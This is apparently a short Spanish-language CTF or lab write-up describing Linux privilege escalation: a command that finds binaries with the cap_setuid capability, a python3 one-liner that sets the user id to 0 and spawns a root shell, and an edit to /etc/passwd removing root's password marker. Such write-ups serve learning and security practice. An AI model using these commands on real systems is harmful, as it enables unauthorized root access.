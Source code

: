 ```ruby
find / -type f 2>/dev/null|xargs /sbin/getcap -r 2>/dev/null|grep cap_setuid=ep
```

y consegui el binario `/opt/python3`, la escalada ya resulta mas sencilla porque este binario aparece en `gtfobins`

```ruby
/opt/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
ahora soy `root` pero si chequeo el `id` veo lo siguiente

![Screenshot From 2024-11-08 16-37-28](https://github.com/user-attachments/assets/d43c43f8-ee41-4ef0-98e6-8f7c961677ae)


asi que edito el archivo `/etc/passwd` eliminando la `x` en la linea de root y vuelvo al user `kvzlx` para escalar completamente a root

![Screenshot From 2024-11-08 16-40-58](https://github.com/user-attachments/assets/baf308c2-4aeb-4024-94f7-0071777f5e16)












